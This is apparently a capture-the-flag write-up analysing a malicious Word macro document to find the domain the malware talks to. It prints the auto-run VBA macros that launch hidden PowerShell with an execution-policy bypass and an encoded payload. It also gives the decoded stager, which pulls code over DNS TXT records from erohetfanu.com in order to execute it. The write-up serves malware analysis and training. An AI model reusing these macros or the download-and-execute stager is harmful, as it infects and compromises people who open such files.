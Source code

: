 
## Identify the Domain
> Using the Word docm file, identify the domain name that the malware communicates with.

0. I'm using LibreOffice, but you can also use `docker run --rm -it --name oletools -v $(pwd):/srv:ro jorgeandrada/oletools:latest sh` instead. Just don't run the macros. Pleae
1. Opened the document with LibreOffice, macros off. Used `Tools > Macros > Edit macros` to edit them, found these:

```VBScript
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Private Sub Document_Open()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

```

Deobfuscated, it would look like:

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object;

payload = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

## iex(
  a IO.StreamReader(
    (a IO.Compression.DeflateStream(
      [IO.MemoryStream][Convert]::FromBase64String(payload),
      [IO.Compression.CompressionMode]::Decompress
    )),
    [Text.Encoding]::ASCII)
)
## .ReadToEnd()"" "

```
Used a [small PHP script](../scripts/decode_macro_payload.php) to decode and deflate, and obtained the following code (rewrote to be easier to read):
```VBScript
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o};
$f = "77616E6E61636F6F6B69652E6D696E2E707331";
$h = "";

upperLimit = ([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)
foreach ($i in 0..upperLimit)  {
  $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
};

decoded = $(H2A $h | Out-string)

# iex(decoded)


```

The answer to the challenge is: `erohetfanu.com`

Bonus track, what does `77616E6E61636F6F6B69652E6D696E2E707331` mean?: `wannacookie.min.ps1` :)
